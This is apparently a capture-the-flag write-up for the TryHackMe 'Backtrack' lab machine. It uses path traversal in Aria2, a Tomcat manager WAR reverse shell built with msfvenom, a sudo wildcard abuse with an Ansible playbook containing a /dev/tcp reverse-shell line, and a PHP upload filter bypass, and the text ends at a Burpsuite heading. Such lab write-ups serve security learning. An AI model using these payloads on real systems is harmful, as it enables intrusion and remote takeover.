 # THM - Backtrack

Target IP - 10.10.240.100

## Enumeration

#### Nmap

Running the following command, we can see all the available and open ports and what is being run on them:

```
nmap -sC -sV 10.10.240.100 -p- -vv --min-rate 10000
```

![[Pasted image 20250104233730.png]]

From the above response, we are able to identify many web servers running, looking at what is running on each webpage, we see the following:

###### Port 8080

![[Pasted image 20250104234134.png]]

###### Port 8888

![[Pasted image 20250104234156.png]]

Looking at the above two webpages that work, we see an Apache Tomcat instance and a Aria2 instance. Looking at the version numbers for both instances, Apache Tomcat version 8.5.93 does not have any usable vulnerabilities however, in the Aria2 instance by heading to Settings then Server Info we see the following version 1.35.0:

![[Pasted image 20250104234439.png]]


## Exploit

Looking up the following version for vulnerabilities online we find the following:

![[Pasted image 20250104235319.png]]

Here we found a Path Traversal Vulnerability under the CVE-2023-39141. Using this CVE we are able to access files on the target system using a path such as the following which was used in a PoC (Proof of Concept):

```
curl --path-as-is http://10.10.240.100:8888/../../../../../../../../../../../../../../../../../../../../etc/passwd
```

From this we are able to successfully read the `/etc/passwd` file of the target machine, this reveals the following information:

![[Pasted image 20250105093048.png]]

Here we are able to obtain the location of the tomcat instance which is `/opt/tomcat`. This means that we can head to this folder to find our configuration files which can have exposed credentials. This file is located in the following path: `/opt/tomcat/conf/tomcat-users.xml`. This file is typically use to assign users and roles to the tomcat instance. However, here we see the following:

```
curl --path-as-is http://10.10.240.100:8888/../../../../../../../../../../../../../../../../../../../../opt/tomcat/conf/tomcat-users.xml
```

![[Pasted image 20250105093624.png]]

Now that we have the username and password, we can search online for a authenticated Tomcat RCE (Remote Code Execution) vulnerability. [Here](https://medium.com/@cyb0rgs/exploiting-apache-tomcat-manager-script-role-974e4307cd00) we found a manager-script role exploit.

Following the process outlined in the exploit we are able to obtain a reverse shell on the target system.

```
msfvenom -p java/shell_reverse_tcp lhost=10.4.109.132 lport=1234 -f war -o pwn.war
curl -v -u tomcat:OPx52k53D8OkTZpx4fr --upload-file pwn.war "http://10.10.240.100:8080/manager/text/deploy?path=/foo&update=true"
```

![[Pasted image 20250106182252.png]]

```
nc -lvnp 1234
curl http://10.10.240.100:8080/foo
```

![[Pasted image 20250106182452.png]]

#### Reverse Shell

Heading to the `/opt/tomcat` directory we are able to receive the first flag:

![[Pasted image 20250106182742.png]]

Before we move on we will first upgrade our terminal using the following command:

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

![[Pasted image 20250106183455.png]]

## Terminal as Wilbur

Upon running the command:

```
sudo -l
```

We receive the output:

![[Pasted image 20250106183706.png]]

Here we see that we can run a command as Wilbur, however, due to the fact that there is a `*` wildcard means that we can write any file there. However, we cannot write a file to the folder it is currently in, luckily the wildcard does not stop path traversal, so we can "backtrack" to another folder than we can write to and upload a `.yml` shell file we find online. First we will look for a `.yml` shell online:

![[Pasted image 20250106185133.png]]

Here we will copy this shell into a temporary shell:

```
cd /tmp
mkdir /shell
cd shell
# In this directory place the file:
echo "- hosts: localhost
  tasks:
  - name: rev
    shell: bash -c 'bash -i >& /dev/tcp/10.4.109.132:4444 0>&1'" > shell.yml
chmod 777 shell.yml
```

Now we will run the command to execute the payload but before we do, we will run a netcat listener on the same port as above:

```
nc -lvnp 4444
sudo -u wilbur /usr/bin/ansible-playbook /opt/test_playbooks/../../tmp/shell/shell.yml
```

Now we have successfully obtained a shell as wilbur:

![[Pasted image 20250106191017.png]]

We will upgrade the shell again using the following command:

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Now heading to the home directory for Wilbur we find this file:

![[Pasted image 20250106191621.png]]

Now we also see the credentials for wilbur in a secret file, which reads:

```
cat .just_in_case.txt 
in case i forget :

wilbur:mYe317Tb9qTNrWFND7KF
```

So now rather than working in a barely working shell, we can login using ssh however, before we do so, we can do some port forwarding to let our attack box see the local web application, we can do so by running the following command on our attack box:

```
ssh wilbur@10.10.15.184 -L 5555:127.0.0.1:80
```

Now heading to `http://localhost:55555`, we can see the following web application:

![[Pasted image 20250106193130.png]]

Now logging in give the credentials previously given, we are able to upload images to the server.
So now we will get a php reverse shell from pentest-monkey, edit the file and upload it to the server. However we receive an error stating that it needs to be of an image format:

![[Pasted image 20250106193522.png]]

So we will try to bypass this by adding the `.jpg` in the filename then at the end of the name it will be `.php`.
However, the shell does not execute. Now we will check in Burpsuite what the issue is:

#### Burpsuite
